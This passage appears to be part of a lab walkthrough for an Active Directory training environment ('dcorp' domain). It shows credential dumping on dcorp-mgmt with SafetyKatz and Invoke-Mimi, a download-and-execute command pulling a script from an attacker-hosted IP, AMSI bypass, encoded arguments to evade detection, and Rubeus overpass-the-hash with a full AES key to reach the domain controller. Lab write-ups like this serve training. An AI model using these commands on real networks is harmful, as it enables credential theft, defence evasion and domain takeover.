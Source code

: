 Run Safety.bat on dcorp-mgmt that use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```
![image](https://github.com/user-attachments/assets/9be372da-6c1e-4547-9965-ba7d4ae568c3)

Sweet! We got credentials of svcadmin - a domain administrator. Note that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets!

## Abuse using PowerShell Remoting
Check if we can run commands on dcorp-mgmt using PowerShell remoting.  
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-Command ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt 
ciadmin 
dcorp-mgmt 
```
Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin "svcadmin". Host Invoke-Mimi.ps1 on your studentx machine and run the below command on the reverse shell: 
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```
Now, to use Invoke-Mimi on dcorp-mgmt, we must disable AMSI there. Please note that we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt: 

![image](https://github.com/user-attachments/assets/620c0b20-6e2e-4500-b370-1534fcf527e8)

## Using OverPass-the-Hash

Finally, use OverPass-the-Hash to use svcadmin's credentials.
Run the below command from an elevated shell from the student VM. Note that we can use whatever tool we want (Invoke-Mimi, SafetyKatz, Rubeus etc.)  
Run the below commands from an elevated shell on the student VM to use Rubeus. Note that we are passing encoded arguments to Loader to avoid detection: 

```
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
```
![image](https://github.com/user-attachments/assets/7e922474-3a67-4e8d-be3c-52f63b93a5ea)

Run the above commands in the same command prompt session. Note that if you get an error like 'This app can't run on your PC' for Loader.exe or Rubeus.exe, re-extract from C:\AD\Tools.zip: 

```
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Try accessing the domain controller from the new process! 
```
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
```
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X. 
